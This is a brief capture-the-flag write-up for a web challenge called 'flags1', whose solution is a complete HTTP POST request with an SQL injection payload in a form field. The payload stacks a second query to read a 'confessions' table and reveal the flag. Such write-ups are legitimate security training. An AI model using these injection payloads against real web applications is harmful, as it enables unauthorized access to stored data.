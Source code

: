 # flags1
> Come submit your flags for all to see!

## About the Challenge
We have been given a website and we need to find the flag there

![preview](images/preview.png)

We can input some random string and then our input will be displayed in the homepage

## How to Solve?
Actually this chall is literally the same with `UTCTF - Confessions` chall. So i tried to use the same payload to solved this chall

```
POST /sendflag HTTP/2
Host: flags.mc.ax
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

flag="); SELECT text FROM confessions; --
```

![flag](images/flag.png)

If you are still confused, you can refer to this [repository](https://github.com/utisss/UTCTF-23/tree/main/guppy/web-confession)

```
cursed{thank_you_for_the_flags}
```